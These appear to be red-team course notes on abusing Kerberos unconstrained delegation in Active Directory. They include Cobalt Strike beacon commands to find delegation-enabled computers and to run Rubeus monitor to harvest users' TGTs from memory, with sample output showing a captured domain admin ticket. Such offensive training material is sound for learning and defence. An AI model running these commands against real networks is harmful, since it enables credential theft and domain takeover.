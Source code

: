 
Kerberos "delegation" is a feature that allows one principal to request access to resources on behalf of another principal.  Imagine a scenario where users authenticate to a front-end web application using Kerberos, but that web application leverages another back-end service, such as a database or file share.  When a user performs an operation that needs to be processed on the back-end service, the web application needs a way to authenticate to that service as the user in question.

![[Pasted image 20250720224523.png]]

We know from the Kerberos introduction in [Credential Access](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops&unit=67851a86ba9789af1107f5f9) that the user authenticates to the domain controller and obtains a TGT, which it then uses to request service tickets.  But in this scenario, how could the web server go about obtaining an MSSQLSvc ticket for the user?  It can't ask the domain controller directly because it doesn't know the user's secret.  This is what delegation was designed for.

There are multiple types of delegation in modern Windows:

- Unconstrained Delegation.
    
- Constrained Delegation.
    
- Role-Based Constrained Delegation.
    

We will cover each in turn, but this lesson will focus on unconstrained.  This is the first type of delegation that was introduced and also turned out to be the most dangerous.  It's enabled by setting a flag called `TRUSTED_FOR_DELEGATION` on the UserAccountControl attribute of the computer object.

```powershell
beacon> ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname

sAMAccountName: CONT-DC-1$
sAMAccountName: CONT-WEB-1$
```

> Domain controllers are always configured with unconstrained delegation, but this isn't much of an issue since having local admin access to a domain controller is pretty much game over anyway.

When a client requests a service ticket for an SPN running under the context of this computer account (e.g. the HTTP service), the domain controller sets a flag in the TGS-REP called `ok-as-delegate`.  This tells the requesting client that the server specified in the ticket is trusted for delegation; so when it sends the AP-REQ to the service, it includes both the service ticket and a copy of the user's TGT.  The computer running the service will then be able to cache the user's TGT in memory, and use it to request service tickets on their behalf in the future.

You may be able to see why this type of delegation is so bad from a security perspective.  If an adversary can compromise a computer configured for unconstrained delegation, they can extract these TGTs from memory and use them to request service tickets on behalf of those users to any other service in the entire domain.

Rubeus has a `monitor` command that periodically captures and displays TGTs as users authenticate to a service.

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /nowrap

[*] 19/02/2025 14:56:32 UTC - Found new TGT:

  User                  :  dyork@CONTOSO.COM
  StartTime             :  19/02/2025 14:56:16
  EndTime               :  20/02/2025 00:56:16
  RenewTill             :  26/02/2025 14:56:16
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doIFj[...snip...]kNPTQ==
```

This output shows that we have captured a TGT from a domain administrator, dyork.

To terminate Rubeus, use the `jobs` and `jobkill` commands.

```powershell
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 0    2468  .NET assembly

beacon> jobkill 0
[+] job 0 completed

```